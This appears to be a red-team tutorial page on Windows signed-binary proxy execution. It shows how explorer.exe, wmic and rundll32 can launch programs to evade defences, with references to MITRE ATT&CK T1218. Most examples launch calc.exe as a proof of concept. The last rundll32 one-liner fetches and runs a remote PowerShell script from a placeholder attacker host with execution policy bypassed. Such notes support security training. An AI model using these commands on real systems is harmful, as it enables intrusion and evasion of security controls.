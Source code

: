 # File execution

## File Explorer

File Explorer is a pre-installed file manager and system component for Windows. People found that using the file 
explorer binary can execute other `.exe` files. This technique is called Indirect Command Execution, where the 
`explorer.exe` tool can be used and abused to launch malicious scripts or executables from a trusted parent process.

The `explorer.exe` binary is located at:

    C:\Windows\explorer.exe for the Windows 32 bits version
    C:\Windows\SysWOW64\explorer.exe for the Windows 64 bits version

In order to create a child process of `explorer.exe` parent (in this case `calc.exe`):

    explorer.exe /root,"C:\Windows\System32\calc.exe"

## WMIC

WMIC

Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People 
found that WMIC is also used to execute binaries for evading defensive measures. The MITRE ATT&CK framework refers 
to this technique as Signed Binary Proxy Execution ([T1218](https://attack.mitre.org/techniques/T1218/))

To create a new process of a binary of our choice (in this case `calc.exe` again):

    wmic.exe process call create calc

## Rundll32

Rundll32 is a pre-installed tool on Windows that loads and runs Dynamic Link Library DLL files within the OS. A red 
team can abuse and leverage `rundll32.exe` to run arbitrary payloads and execute JavaScript and PowerShell scripts.
The MITRE ATT&CK framework identifies this as "Signed Binary Proxy Execution: Rundll32" 
([T1218](https://attack.mitre.org/techniques/T1218/011/)).

The `rundll32.exe` binary is located at:

    C:\Windows\System32\rundll32.exe for the Windows 32 bits version
    C:\Windows\SysWOW64\rundll32.exe for the Windows 64 bits version

To execute a `calc.exe` binary as proof of concept using the `rundll32.exe` binary:

    rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

To run a JavaScript that executes a PowerShell script to download from a remote website using `rundll32.exe`:

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");


